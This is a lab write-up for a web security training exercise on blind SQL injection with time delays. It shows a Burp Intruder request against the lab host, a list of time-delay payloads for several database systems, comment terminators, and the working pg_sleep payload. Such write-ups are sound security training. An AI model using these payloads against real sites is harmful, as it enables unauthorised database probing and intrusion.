

# Lab: Blind SQL injection with time delays
## Description

1) Find the SQLi. First I tried to find the SQLi manually but quickly realized that we cannot really do this manually - its simply too prone to errors.

2) Automate detections. I took the following request which according to the lab is vulnerable:

```yaml
GET /filter?category=Gifts HTTP/1.1
Host: acf11f001e67a4b2c035830000610038.web-security-academy.net
Cookie: TrackingId=TlR0BtueYonvt2op'%3b+§§+§§; session=iSTuh36Hj5Zwqx5yLL4q1w3Fo4CZa3iF
```

I inserted two injection points, using the cluber bomb attack with the following input:

1) A list of time-delay injections:
```
dbms_pipe.receive_message(('a'),10)
WAITFOR DELAY '0:0:10'
SELECT pg_sleep(10)
SELECT sleep(10)
```
2) A list of comments to close off the SQL query
```
--
/*
#
```
Note: In Intruder, you have to remove `/` and `*` from the Payload Encoding.

Running that query resulted in the following:


At first, it looked like the attack worked against 4 diffent DMBS, BUT, turns out this happens because intruder is multi-threaded, so once the delay is triggered, the remaining queries in the queue will all be delayed.

To avoid this, reconfigure the Intruder's resource pool to `Maximum concurrent requests: 1`

## Solution

```
'; SELECT pg_sleep(10) --
```